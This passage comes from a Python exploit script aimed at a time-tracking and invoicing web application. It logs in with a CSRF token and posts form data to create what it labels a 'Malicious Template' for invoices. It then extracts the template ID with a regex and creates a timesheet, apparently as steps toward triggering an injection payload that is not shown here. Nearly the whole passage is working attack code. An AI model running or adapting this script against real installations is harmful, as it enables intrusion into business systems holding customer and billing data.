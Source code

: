             'invoice_template_form[vatId]': '',
            'invoice_template_form[address]': '',
            'invoice_template_form[contact]': '',
            'invoice_template_form[paymentTerms]': '',
            'invoice_template_form[paymentDetails]': '',
            'invoice_template_form[dueDays]': '30',
            'invoice_template_form[vat]': '0.000',
            'invoice_template_form[language]': 'en',
            'invoice_template_form[numberGenerator]': 'default',
            'invoice_template_form[renderer]': 'din',
            'invoice_template_form[calculator]': 'default',
            'invoice_template_form[_token]': token
        }
        
        response = session.post(f"{BASE_URL}/invoice/template/create", data=data)
        
        # Define the regex pattern to capture the template ID and match the name
        pattern = re.compile(fr'<tr class="modal-ajax-form open-edit" data-href="/en/invoice/template/(\d+)/edit">\s*<td class="alwaysVisible col_name">{re.escape(name)}</td>', re.DOTALL)
        
        # Search the response text with the regex pattern
        match = pattern.search(response.text)
        
        if match:
            template_id = match.group(1)  # Extract the captured group
            print(f"[+] Malicious Template: {name}, Template ID: {template_id}")
            return template_id  # Return the captured template ID
        else:
            print("[-] Failed to capture the template ID")
            create_malicious_template(token,name,session)
        
    except Exception as e:
        print(f"An error occurred: {str(e)}")
        exit(1)




def create_timesheet(token, activity, project, session):
    form_data = {
            'timesheet_edit_form[begin_date]': (None, '01/01/1980'),
            'timesheet_edit_form[begin_time]': (None, '12:00 AM'),
            'timesheet_edit_form[duration]': (None, '0:15'),
            'timesheet_edit_form[end_time]': (None, '12:15 AM'),
            'timesheet_edit_form[customer]': (None, ''),
            'timesheet_edit_form[project]': (None, project),
            'timesheet_edit_form[activity]': (None, activity),
            'timesheet_edit_form[description]': (None, ''),
            'timesheet_edit_form[fixedRate]': (None, ''),
            'timesheet_edit_form[hourlyRate]': (None, ''),
            'timesheet_edit_form[billableMode]': (None, 'auto'),
            'timesheet_edit_form[_token]': (None, token)
        }
    response = session.post(f"{BASE_URL}/timesheet/create", files=form_data,allow_redirects=False)
    if response.status_code == 302:  # Changed to 200 as 301 is for redirection
        print(f"[+] Created a new timesheet")


##############################





# login